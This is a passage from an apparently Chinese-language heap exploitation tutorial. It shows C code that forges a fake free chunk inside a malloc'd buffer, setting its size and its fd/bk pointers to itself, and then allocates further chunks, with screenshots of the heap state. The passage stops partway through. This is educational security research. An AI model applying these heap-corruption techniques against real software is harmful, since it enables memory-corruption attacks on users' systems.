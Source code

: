 ```plain
intptr_t stack_var[4];
    intptr_t *a = malloc(0x38);
```

接下来我们在 `chunk a` 内伪造一个 `fake free chunk` ，这个 chunk 的 `prev_inuse` 位为 0， `fd` 和 `bk` 指针都改为 `chunk a`的地址

```plain
a[0] = 0;    // prev_size (Not Used)
a[1] = 0x60; // size
a[2] = (size_t) a; // fwd
a[3] = (size_t) a; // bck
```

[![](assets/1702521085-64e31f09df64c1472f8d3eac253c8356.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205230824-2316e5f0-9380-1.png)

新 malloc 了两个堆块，`chunk b` 大小 0x30，`chunk c` 大小 0x100

```plain
uint8_t *b = (uint8_t *) malloc(0x28);

    int real_b_size = malloc_usable_size(b);

    uint8_t *c = (uint8_t *) malloc(0xf8);
```

[![](assets/1702521085-e424eb784e0f7d9b3573d2f7836091c7.png)](https://xzfile.aliyuncs.com/media/upload/picture/20231205230842-2dc9a6d6-9380-1.png)
